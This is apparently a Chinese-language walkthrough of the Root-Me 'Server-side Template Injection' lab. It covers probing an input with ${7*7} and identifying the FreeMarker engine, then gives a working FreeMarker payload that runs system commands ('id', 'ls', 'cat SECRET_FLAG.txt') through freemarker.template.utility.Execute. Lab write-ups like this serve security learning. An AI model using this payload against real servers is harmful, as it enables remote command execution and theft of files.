




Root-Me [Server-side Template Injection](https://www.root-me.org/en/Challenges/Web-Server/Server-side-Template-Injection)
===

一個 Input，輸入什麼，顯是什麼。

## 解題關鍵
1. Template Injection

## 提示訊息
```
Exploit the vulnerability in order to retrieve the validation password in the file SECRET_FLAG.txt.
```

## 解題方法
簡單搜尋關鍵字，發現就像 XXS，但更進階一點，是由伺服器端的樣板引擎在做解析。  

```
smarty=Hello ${7*7}
Hello 49

freemarker=Hello ${7*7}
Hello 49
```

當我嘗試在頁面上唯一的 input 上輸入 `${7*7}`，出現了一樣的結果。  

  

至於如何運用，可以先參考以下這張圖來進行測試，透過輸入的方式來得知該頁面使用哪個板模。  

https://www.we45.com/blog/server-side-template-injection-a-crash-course-  

```
${5*5} //Success
$a{*comment*}b //Fail
a{*comment*}b //Fail
${"z".join("ab")} //Fail
{"z".join("ab")} //Fail
```

結果得到 `Unknown`，所以是個未知板模...  

接著只好嘗試再找找有沒有其他資訊，就再輸入 `${"z".join("ab")}` 的同時，查看了 Requests、Response，發現 `Preview` 回應了一些資訊。  

  

Google `freemarker` 關鍵字之後發現，這是一個 Java 的 Template 框架，在 [服务端模板注入：现代WEB远程代码执行（补充翻译和扩展）](https://wooyun.js.org/drops/服务端模板注入：现代WEB远程代码执行（补充翻译和扩展）.html) 一文中找到簡單的 exploit 用法，如下。  

```
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ex("id")}
```

簡單的說比較像是 XXE + Template 連環技，首先 XXE 一個標籤，在透過 `${ex("CMD")}` 去執行系統指令，如下圖以指令 `ls` 為例。  

  

可以發現目標 `SECRET_FLAG.txt` 檔案在同個目錄下，將指令改為 `cat SECRET_FLAG.txt` 解決該題，Payload 如下。  

```
<#assign ex="freemarker.template.utility.Execute"?new()>  ${ex("cat SECRET_FLAG.txt")}
```

## Reference
https://portswigger.net/blog/server-side-template-injection
https://www.we45.com/blog/server-side-template-injection-a-crash-course-
https://wooyun.js.org/drops/服务端模板注入：现代WEB远程代码执行（补充翻译和扩展）.html

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)